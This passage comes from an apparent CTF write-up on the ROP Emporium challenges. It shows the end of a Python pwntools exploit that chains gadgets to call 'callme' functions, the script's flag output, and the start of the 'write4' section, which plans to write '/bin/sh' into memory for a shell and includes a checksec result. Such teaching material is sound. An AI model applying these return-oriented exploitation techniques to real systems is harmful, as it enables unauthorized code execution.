 ```python
 26 payload += callme_two_addr # And so on..
 27 
 28 payload += pop_three_addr
 29 payload += p64(0x1)
 30 payload += p64(0x2)
 31 payload += p64(0x3)
 32 
 33 payload += callme_three_addr
 34 
 35 sh = elf.process()
 36 sh.recvuntil("> ")
 37 sh.sendline(payload)
 38 
 39 print sh.recvall()
```

Running the exploit.
```shell
~/Documents/ropemporium/callme/64callme# chmod +x exploit.py && ./exploit.py
ROPE{a_placeholder_32byte_flag!}
```

# write4
<a href="{{ page.url }}#title">Back to top ↑</a>

The challenge description tells us that this time, the string "/bin/cat flag.txt" doesn't actually exist anywhere in the binary. It hints at the fact that we have to write the string ourselves somewhere into the binary first, in order to be able to pass it to `system()`. It also tells us we need a gadget of the form `mov [reg1], reg2` to move a value stored in `reg2` to a memory address stored in `reg1`.

I took a little bit of a different route. Instead of writing the string "/bin/cat flag.txt", which would be 17 bytes, I instead chose to write the string "/bin/sh ", which is 8 bytes. This gets me a shell. The trailing space at the end just after "/sh " is important since it aligns the string to 4 and 8 bytes (for the 32-bit and 64-bit versions respectively). If we don't align it correctly, the exploit might not work as intended.

Enough with the description, lets get down to business.

### 32-bit
<a href="{{ page.url }}#title">Back to top ↑</a>

Running checksec.
```shell
~/Documents/ropemporium/write4/32write4# checksec write432
[*] '/root/Documents/ropemporium/write4/32write4/write432'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
